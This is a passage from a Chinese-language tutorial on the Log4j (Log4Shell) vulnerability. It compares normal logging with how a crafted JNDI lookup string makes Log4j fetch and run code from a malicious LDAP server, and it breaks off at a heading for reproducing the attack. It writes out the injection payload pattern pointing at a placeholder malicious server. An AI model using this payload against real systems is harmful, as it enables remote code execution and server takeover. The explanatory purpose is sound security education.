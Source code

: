 <img src="log4j/log4j_attack_govcertch.jpg" alt="log4j_attack_govcertch" style="zoom:67%;" />

**正常情况下应该是这样的：**

1. 用户输入："我的用户名是张三"
2. 程序记录："用户张三登录了"
3. 结束

**但 Log4j 的"聪明"功能被恶意利用了：**

1. 攻击者输入：`${jndi:ldap://恶意服务器/病毒}`
2. Log4j 看到这个格式，以为是正常的查找请求
3. Log4j 主动连接恶意服务器
4. 恶意服务器说："给你一个'配置文件'"（实际是病毒）
5. Log4j 下载并执行了病毒
6. 攻击者控制了整个服务器

**关键问题：** Log4j 把用户输入当作了"指令"来执行，而不是普通的"数据"来记录。

## 实战攻击复现

### 实验环境搭建
